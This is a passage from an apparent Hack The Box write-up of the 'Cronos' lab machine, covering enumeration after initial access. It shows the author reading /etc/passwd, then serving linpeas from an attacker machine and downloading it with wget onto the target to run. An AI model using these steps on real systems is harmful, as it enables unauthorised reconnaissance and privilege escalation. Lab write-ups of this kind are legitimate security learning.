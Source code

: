 ```sh
```


cat /etc/passwd shows there is one other user on the box, also knew this from the home dir, but noulis is another user. 

```sh
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
bind:x:112:119::/var/cache/bind:/bin/false
```

I didnt find anything obvious to go off of, so i transferred linpeas and ran that.

```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.13 - - [24/Oct/2021 17:12:16] "GET /lin.sh HTTP/1.1" 200 -
```


```sh
cd /tmp
wget http://10.10.14.11/lin.sh
wget http://10.10.14.11/lin.sh
--2021-10-25 00:12:16--  http://10.10.14.11/lin.sh
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451118 (441K) [text/x-sh]
Saving to: 'lin.sh'

lin.sh              100%[===================>] 440.54K  1.46MB/s    in 0.3s    

2021-10-25 00:12:16 (1.46 MB/s) - 'lin.sh' saved [451118/451118]

chmod +x lin.sh
```